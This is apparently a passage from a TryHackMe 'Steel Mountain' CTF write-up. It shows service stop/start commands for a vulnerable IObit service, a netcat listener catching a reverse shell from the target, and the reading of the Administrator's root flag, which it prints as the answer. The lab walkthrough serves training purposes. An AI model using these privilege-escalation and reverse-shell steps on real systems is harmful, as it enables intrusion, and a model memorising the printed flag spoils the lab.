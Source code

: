 ```
sc query AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.


C:\Program Files (x86)\IObit>
```

`No answer needed`

What is the root flag?

```
kali@kali:~/CTFs/tryhackme/Steel Mountain$ nc -lnvp 9002
Listening on 0.0.0.0 9002
Connection received on 10.10.208.51 49299
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type "C:\Users\Administrator\Desktop\root.txt
type "C:\Users\Administrator\Desktop\root.txt
9af5f314f57607c00fd09803a587db80
```

`9af5f314f57607c00fd09803a587db80`

## Task 4 Access and Escalation Without Metasploit
